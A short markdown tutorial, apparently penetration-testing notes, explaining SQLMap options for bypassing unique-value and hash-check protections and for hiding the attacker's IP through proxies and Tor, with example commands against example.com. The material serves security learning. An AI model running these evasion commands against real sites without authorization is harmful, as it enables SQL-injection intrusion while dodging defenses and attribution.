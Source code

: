 
## Unique Value Bypass

Some web applications require unique values for specific parameters. SQLMap can randomize such parameter values using the `--randomize` option.

### Example Command:
```bash
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

### Example Output:
```plaintext
URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
```

---

## Calculated Parameter Bypass

When web applications require parameter values to be calculated (e.g., hashes), the `--eval` option allows users to specify Python code for generating values before sending requests.

### Example Command:
```bash
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

### Example Output:
```plaintext
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
```

---

## IP Address Concealing

To bypass IP address blacklisting or conceal the attacker's IP, SQLMap supports:

- **Proxy:** Use the `--proxy` option to specify a SOCKS4/5 or HTTP proxy.
- **Tor:** Use the `--tor` option for anonymization via the Tor network. Verify Tor usage with `--check-tor`.

### Example Command:
```bash
sqlmap -u "http://www.example.com/" --proxy="socks4://177.39.187.70:33283" --check-tor
```

---

